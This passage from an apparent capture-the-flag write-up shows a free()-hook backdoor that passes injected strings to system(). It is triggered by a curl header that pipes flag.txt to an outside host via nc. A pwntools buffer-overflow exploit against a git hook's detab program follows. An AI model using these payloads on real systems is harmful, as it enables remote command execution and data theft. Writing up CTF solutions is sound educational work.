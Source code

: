 ```asm
  ad:   48 b8 55 55 55 55 55    movabs rax, 0x5555555555555555
  b4:   55 55 55 
  b7:   48 a3 44 44 44 44 44    movabs ds:0x4444444444444444, rax
  be:   44 44 44 
  c1:   58                      pop    rax
  c2:   5b                      pop    rbx
  c3:   5d                      pop    rbp
  c4:   41 5c                   pop    r12
  c6:   41 5d                   pop    r13
  c8:   c3                      ret
```

This code will hijack `free()` and if a freed string is on the format `cmd{.*}`, the contents of it will be passed to `system()`. We can make a request to the web server on the running machine with our payload in a header which will be executed once the server has finished processing our request:

```bash
$ nc -v -n -l -p 31337 &
Listening on 0.0.0.0 41000

$ curl 'http://injector.challenges.adversary.zone:4321/x' -H 'X: cmd{cat flag.txt|nc cs.zeta-two.com 31337}'
Connection received on 167.99.209.243 37378
CS{fr33_h00k_b4ckd00r}
```

Flag: `CS{fr33_h00k_b4ckd00r}`

### Tab-Nabbed

We are given an image an address where the image is running. From the image we find that it is running a gitolite git server with one repository: "hashfunctions". There is also a post-receive hook set up for that repo to run the "detab" program on every modified file. The program converts leading tabs to spaces in files but it has a buffer overflow vulnerability. The program works with a 512 byte buffer which is flushed when it is full. However, the check to determine if it is full only checks for strict equality so by putting a tab in the file when the buffer has for example 510 characters in it the size will jump to 514 and continue overflowing from there. We need to make sure to keep some other local variables valid but other than that there are no protections which means we can directly overwrite the return address with the convenient "print flag" function in the program. To generate the payload file we run the following exploit:

```python

#!/usr/bin/env python3

from pwn import *

ADDR_PRINT_FLAG = 0x00000000004011D6

payload = b''
payload += b'A'*510             # Fill the buffer almost (n=510)
payload += b'\n'                # Reset the newline flag (n=511)
payload += b'\t'*1              # tab replaced with 4 spaces (n=515)
payload += b'\n'*(13+4+4)       # pad and keep newline flag set (n=536)
#payload += cyclic(512, n=8)    # use this in first pass to find offset 
offset = cyclic_find(0x6161616161616162, n=8)
payload += b'E'*offset          # pad until ret addr (n=544)
payload += p64(ADDR_PRINT_FLAG) # overwrite ret addr with flag function
pause()

# Create payload file
with open('payload.dat', 'wb') as fout:
    fout.write(payload)

# Test locally
r = process('./detab', level='debug')
```